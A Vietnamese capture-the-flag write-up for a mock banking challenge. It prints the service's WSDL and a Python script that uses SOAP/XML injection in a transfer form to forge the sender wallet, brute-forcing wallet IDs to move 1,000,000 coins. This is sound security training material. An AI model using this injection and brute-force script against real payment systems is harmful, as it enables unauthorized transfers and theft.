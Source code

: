 
URL:  http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/</br>
Đầu tiên ta cần tạo một tài khoảng và login vào</br>
Tại VIP : "This section is available only to privileged pigs with money in pockets. Transfer to the piggy-bank 1 000 000 coins and become important."</br>
![1](https://user-images.githubusercontent.com/23306492/43188979-b23d15d4-901f-11e8-9dac-2090b0566b3f.png)</br>
Trong khi ta chỉ có `110 `</br>
![2](https://user-images.githubusercontent.com/23306492/43189089-fc26109c-901f-11e8-880e-0d993ad51eaa.png)</br>
Tại tab `For Developers` ta thấy `<!-- Link to the API (http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.wsdl.php) (Testing stage) -->`</br>
**bankservice.wsdl.php**</br>
```
<wsdl:definitions name="Bank" targetNamespace="urn:Bank">
<message name="BalanceRequest">
	<part name="wallet_num" type="xsd:decimal"/>
</message>
<message name="BalanceResponse">
	<part name="code" type="xsd:float"/>
	<part name="status" type="xsd:string"/>
</message>
<message name="internalTransferRequest">
	<part name="receiver_wallet_num" type="xsd:decimal"/>
	<part name="sender_wallet_num" type="xsd:decimal"/>
	<part name="amount" type="xsd:float"/>
	<part name="token" type="xsd:string"/>
</message>
<message name="internalTransferResponse">
	<part name="code" type="xsd:float"/>
	<part name="status" type="xsd:string"/>
</message>
<portType name="BankServicePort">
	<operation name="requestBalance">
		<input message="tns:BalanceRequest"/>
		<output message="tns:BalanceResponse"/>
	</operation><operation name="internalTransfer">
		<input message="tns:internalTransferRequest"/>
		<output message="tns:internalTransferResponse"/>
	</operation>
</portType>
<binding name="BankServiceBinding" type="tns:BankServicePort">
	<soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
	<operation name="requestBalance">
		<soap:operation soapAction="urn:requestBalanceAction"/>
		<input><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
		<output><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
	</operation>
	<operation name="internalTransfer">
		<soap:operation soapAction="urn:internalTransferAction"/>
		<input><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
		<output><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
	</operation>
</binding>
<wsdl:service name="BankService">
<wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
<soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php"/>
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
```
Sử dụng Wsdler </br>
![6](https://user-images.githubusercontent.com/23306492/43189565-0bbb77e4-9021-11e8-8fdf-9e07d176ae35.png)</br>
Sử dụng SOAP INJECTION VULNERABILITY để tấn công [link](http://riseandhack.blogspot.com/2015/02/xml-injection-soap-injection-notes.html)
```
import requests
url1 = "http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/auth.php"
url2 = "http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/transfer.php"
s = requests.session()
s.get(url1,params={"login":"k4k4","password":"k4k4"})
for i in range(1000,10000):
	print i
	payload = {	"receiver":'1405</receiver_wallet_num><sender_wallet_num xsi:type="xsd:decimal">'+str(i)+'</sender_wallet_num><amount>1000000<!--',
				"amount":"-->"
		}
	r = s.post(url2,data=payload)
	msg = r.text
	if "Successful" in msg:
		print "ok"
		break
```
![8](https://user-images.githubusercontent.com/23306492/43189896-f0e7aef0-9021-11e8-9c4b-6c8e1a6331a3.png)</br>
![9](https://user-images.githubusercontent.com/23306492/43189915-fe30e32e-9021-11e8-9524-e2fb098652e9.png)</br>

